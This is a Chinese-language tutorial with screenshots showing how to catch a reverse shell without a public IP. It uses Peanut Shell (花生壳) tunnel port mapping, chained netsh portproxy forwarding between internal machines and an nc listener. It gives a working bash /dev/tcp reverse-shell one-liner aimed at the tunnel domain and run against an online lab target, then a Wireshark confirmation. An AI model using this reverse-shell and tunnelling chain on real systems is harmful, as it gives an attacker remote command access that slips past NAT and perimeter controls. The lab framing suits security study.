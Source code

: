 ﻿﻿﻿**不需要公网ip也能反弹shell**

**1、下载花生壳客户端，点击映射数，自动打开web控制台**

下载链接：https://hsk.oray.com/download/

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.001.png)

**2、点击添加映射**

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.002.png)

**3、填入**：

0x01映射类型：tcp

0x02外网域名：2531j09e25.wicp.vip(自动分配的一个)

0x03内网主机：192.168.1.102（花生壳客户端转发流量到内网的一台机器ip）

0x04内网端口：54322(内网的一台机器ip的监听端口)

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.003.png)

**4、192.168.1.102内网主机代理转发netsh设置：**

    netsh interface portproxy add v4tov4 listenaddress=192.168.1.102 listenport=54322 connectaddress=192.168.1.104 connectport=54322

解释：在192.168.1.102机器上开启监听端口54322，转发流量至：192.168.1.104:54322另一台内网机器上，确保IP Hepler服务已开启，监听端口已监听，命令：```netstat -ano | findstr :54322```，备注：```taskkill /pid 95728 /F``` 强制杀死进程,强制杀死后需要开启IP Helper服务

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.004.png)

**5、192.168.1.104内网主机代理转发netsh设置：**


    netsh interface portproxy add v4tov4 listenaddress=192.168.1.104 listenport=54322 connectaddress=192.168.136.128 connectport=54322


解释：在192.168.1.104机器上开启监听端口54322，转发流量至：192.168.136.128:54322虚拟机上，确保IP Hepler服务已开启，命令： ```netstat -ano | findstr :54322```监听端口已监听，备注：```taskkill /pid 3532 /F ```强制杀死进程

![QQ截图20210911140208](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.005.jpeg)

**6、192.168.136.128虚拟机监听端口：54322，宿主机：192.168.1.104**

执行：

    nc -lvvnp 54322

![QQ截图20210911140816](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.006.jpeg)

**7、执行反弹shell命令,靶机链接：https://www.vsplate.com/labs.php#**

    bash -i &> /dev/tcp/2531j09e25.wicp.vip/19478 0>&1

解释：

2531j09e25.wicp.vip：花生壳web控制台上的域名

19478：花生壳web控制台上的端口


![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.007.png)

**8、可以看到，成功反弹shell**

![QQ截图20210911141252](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.008.jpeg)

**9、Wireshark抓包分析：**

在机器192.168.1.104抓包，监控Vmware network Adapter VMnet8网卡和无线网卡，可以看到，192.168.1.102向192.168.1.104（本机）发包，然后，192.168.136.1虚拟ip（本机）向192.168.136.128发包

![QQ截图20210911142425](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.009.png)

**结束！**
